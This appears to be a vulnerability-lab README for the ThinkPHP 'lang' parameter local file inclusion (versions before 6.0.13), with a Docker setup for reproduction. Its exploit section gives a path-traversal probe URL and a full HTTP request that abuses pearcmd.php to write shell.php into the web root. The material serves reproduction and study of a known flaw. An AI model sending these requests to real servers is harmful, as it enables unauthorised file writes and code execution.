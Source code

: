 # ThinkPHP Lang Local File Inclusion

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is an extremely widely used PHP development framework in China. In the version prior to 6.0.13, a local restricted file inclusion issue exists in `lang` parameter if the developer enable multiple language pack.

Although this issue is only allowed to include ".php" file, the attacker is still able to use the "pearcmd.php" to write arbitrary file and execute code in the server.

References:

- <https://tttang.com/archive/1865/>
- <https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp> (about the "pearcmd.php trick")

## Vulnerability Environment

Execute following command to start a server that is developed by ThinkPHP v6.0.12:

```
docker-compose up -d
```

After the server is started, browse the `http://your-ip:8080` to see the default welcome page of ThinkPHP.

## Exploit

Firstly, because the multiple language feature is not enabled by default, you can try to include the `public/index.php` to determine whether the vulnerability exists:

```
http://localhost:8080/?lang=../../../../../public/index
```

![](1.png)

The vulnerability exists if the server crashed and a 500 error response comes back.

Then, try to write data through "/usr/local/lib/php/pearcmd.php":

```
GET /?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

If the server response the output of pearcmd, which means the exploit is successful:

![](2.png)

As you can see, the `shell.php` is written in root directory of web:

![](3.png)
